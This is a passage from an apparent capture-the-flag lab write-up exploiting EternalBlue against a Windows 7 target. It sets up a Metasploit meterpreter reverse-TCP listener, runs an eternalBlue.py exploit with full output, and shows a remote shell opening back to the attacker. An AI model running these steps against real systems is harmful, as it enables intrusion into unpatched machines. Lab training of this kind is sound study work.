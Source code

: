 Now we need to set up our listener. For this we will use Metasploits ```multi/handler```. Set the LHOST and LPORT to your IP and port you chose when generating your payload and then set the apayload for a windows reverse shell. Type exploit to start the handler.
```
msf5 exploit(multi/handler) > set lhost 10.10.14.39
lhost => 10.10.14.39
msf5 exploit(multi/handler) > set lport 9999
lport => 9999
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.39:9999 
```
Now lets execute the python script
```
# python eternalBlue.py 10.10.10.40 ntsvcs
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
No transaction struct in leak data
leak failed... try again
No transaction struct in leak data
leak failed... try again
CONNECTION: 0xfffffa800405f020
SESSION: 0xfffff8a008df08e0
FLINK: 0xfffff8a000915048
InParam: 0xfffff8a00284b15c
MID: 0x4603
unexpected alignment, diff: 0x-1f36fb8
leak failed... try again
CONNECTION: 0xfffffa800405f020
SESSION: 0xfffff8a008df08e0
FLINK: 0xfffff8a0026dd048
InParam: 0xfffff8a00285715c
MID: 0x4607
unexpected alignment, diff: 0x-17afb8
leak failed... try again
CONNECTION: 0xfffffa800405f020
SESSION: 0xfffff8a008df08e0
FLINK: 0xfffff8a002883088
InParam: 0xfffff8a00287d15c
MID: 0x4703
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Opening SVCManager on 10.10.10.40.....
Creating service OuBS.....
Starting service OuBS.....
The NETBIOS connection with the remote host timed out.
Removing service OuBS.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```
If we go back to the reverse handler we see a meterpreter session has opened
```
[*] Sending stage (180291 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.39:9999 -> 10.10.10.40:49161) at 2019-10-22 01:01:24 -0400

```